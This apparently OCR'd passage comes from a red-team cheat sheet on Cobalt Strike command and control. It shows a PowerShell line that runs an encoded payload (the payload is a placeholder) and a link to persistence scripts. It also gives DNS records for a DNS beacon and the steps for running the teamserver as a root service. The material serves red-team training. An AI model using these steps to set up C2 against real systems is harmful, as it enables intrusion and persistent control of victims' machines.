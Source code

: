 # Final Command to execute encoded payload
powershell -nop -enc <BASE64_ENCODED_PAYLOAD>

# CobaltStrike AggressorScripts for Persistence
https://github.com/Peco602/cobaltstrike-aggressor-scripts/tree/main/persistence-sharpersist

Command & Control

    Setting up DNS records for DNS based beacon payloads

# Set below DNS Type A & NS records, where IP points to TeamServer

@    | A  | 10.10.5.50
ns1  | A  | 10.10.5.50
pics | NS | ns1.nickelviper.com

# Verify the DNS configuration from TeamServer, it should return 0.0.0.0
$ dig @ns1.nickelviper.com test.pics.nickelviper.com +short

# Use pics.nickelviper.com as DNS Host and Stager in Listener Configuration

    Start the teamserver and run as service

> sudo ./teamserver 10.10.5.50 Passw0rd! c2-profiles/normal/webbug.profile

$ ip a
$ sudo nano /etc/systemd/system/teamserver.service

[Unit]
Description=Cobalt Strike Team Server
After=network.target
StartLimitIntervalSec=0

[Service]
Type=simple
Restart=always
RestartSec=1
User=root
WorkingDirectory=/home/attacker/cobaltstrike
ExecStart=/home/attacker/cobaltstrike/teamserver 10.10.5.50 Passw0rd! c2-profiles/normal/webbug.profile

[Install]
WantedBy=multi-user.target

$ sudo systemctl daemon-reload
$ sudo systemctl status teamserver.service
$ sudo systemctl start teamserver.service
$ sudo systemctl enable teamserver.service

